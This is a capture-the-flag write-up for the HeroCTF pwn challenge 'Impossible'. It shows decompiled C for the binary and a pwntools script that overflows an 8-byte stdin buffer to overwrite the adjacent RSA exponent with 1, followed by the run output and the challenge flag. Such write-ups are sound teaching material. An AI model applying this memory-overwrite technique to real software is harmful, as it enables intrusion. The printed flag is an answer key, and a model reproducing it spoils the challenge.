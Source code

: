 # Impossible

### Category

Pwn

### Description

Your colleague trolls you by giving you an impossible challenge, betting $100 that you won't succeed.<br>
Show him who's the boss!

**Host** : pwn.heroctf.fr<br>
**Port** : 8001

Format : **Hero{flag}**<br>
Author : **SoEasY**

### Files

 - [Impossible](Impossible)

### Write up

After opening the challenge in IDA, we can take a look at the main:
```c
int __cdecl main(int argc, const char **argv, const char **envp){
  unsigned int v3; // eax
  unsigned int v4; // r12d
  unsigned int v5; // ebx
  unsigned int v6; // eax
  char v8; // [rsp+1Bh] [rbp-25h]
  FILE *stream; // [rsp+28h] [rbp-18h]

  puts(
    "If you can find a value such that encrypt(value) == 12345, I'll give you my flag.\n"
    "But don't try to much, it's impossible: I'm using a home made RSA algorithm with random values!");
  fflush(_bss_start);
  v3 = time(0LL);
  srand(v3);
  p = rand() % 36341 + 10000;
  srand(p);
  q = rand() % 36341 + 10000;
  srand(q);
  e = rand() % 36341 + 10000;
  n = p * q;
  phi = (p - 1) * (q - 1);
  printf("Enter a value to encrypt: ");
  fflush(_bss_start);
  fgets(m, 16, stdin);
  v4 = n;
  v5 = e;
  v6 = atoi(m);
  
  if ( (unsigned int)modular_exponentiation(v6, v5, v4) == 12345){
    stream = fopen("flag.txt", "r");
    while ( 1 ){
      v8 = fgetc(stream);
      if ( v8 == -1 )
        break;
      putchar(v8);
    }
  }else{
    puts("I told you, no one can solve this. You'll never get my flag!");
  }
  fflush(_bss_start);
  return 0;
}
```

So this is basically an RSA encryption algorithm with random values as p, q and e which is annoying.

We can see that an integer `m` is read on stdin on 16 bytes as a string and will later be converted to an int with the `atoi()` function. Let's see `m` in memory:
```x86asm
.bss:0x4040 m         db 8 dup(?)
.bss:0x4048 e         dd ?
```

We can here see that the `m` value is a `char[8]`: if we enter more than 8 bytes in `m`, we will overflow on the `e` value which is very interesting because `e` is the exponent in the RSA encryption algorithm !

if `e=1`, we will have cipher == clear !
So the plan is to have `m=12345` with `e=1` so that `c=12345`.

```py
from pwn import *

r = process("./Impossible")

buf = b'12345'
# This way, atoi(12345\x00\x00\x00) = 12345
buf += b'\x00' * 3
# e = 1
buf += p64(1)

log.success(f"Payload length: {len(buf)}")
r.sendline(buf)
flag = r.recvall().split(b' ')[-1].decode()
info(f"FLAG: {flag}")

```
Result:
```
$ python3 solve.py 
[+] Starting local process './Impossible': pid 168319
[+] Payload length: 16
[+] Receiving all data: Done (250B)
[*] Process './Impossible' stopped with exit code 0 (pid 168319)
[*] FLAG: Hero{Th3r3_1s_n0_w4y_y0u_d1d_1t_CH34T3R!!!!!}
```

### Flag

```
Hero{Th3r3_1s_n0_w4y_y0u_d1d_1t_CH34T3R!!!!!}
```
